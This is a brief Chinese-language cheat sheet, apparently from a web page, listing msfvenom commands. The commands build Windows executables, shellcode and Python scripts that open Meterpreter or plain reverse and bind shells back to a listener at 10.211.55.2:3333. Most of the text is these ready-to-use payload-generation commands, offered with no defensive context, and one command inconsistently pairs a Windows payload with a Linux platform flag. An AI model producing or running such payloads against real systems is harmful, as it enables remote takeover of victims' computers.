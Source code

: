 # 生成二进制文件

windows下生成32位/64位payload时需要注意：

以windows/meterpreter/reverse_tcp为例，该payload默认为32位，也可使用-a x86选项指定。

如果要生成64位，则payload为windows/x64/meterpreter/reverse_tcp。

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -a x86 --platform Windows -f exe > shell.exe

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f exe > shell.exe

```

**Netcat**

nc正向连接

```jsx
msfvenom -p windows/shell_hidden_bind_tcp LHOST=10.211.55.2 LPORT=3333  -f exe> 1.exe

```

复制

nc反向连接，监听

```jsx
msfvenom -p windows/shell_reverse_tcp LHOST=10.211.55.2 LPORT=3333  -f exe> 1.exe

```

# 生成shellcode

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -a x86 --platform Linux -f c

```

# 生成脚本

为什么这里我会写出关于脚本的

就python脚本而言,,被人是可以打包为exe的

**Python反弹shell**

```jsx
msfvenom -p cmd/unix/reverse_python LHOST=10.211.55.2 LPORT=3333 -f raw > shell.py

msfvenom -a python -p python/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f raw > shell.py

```
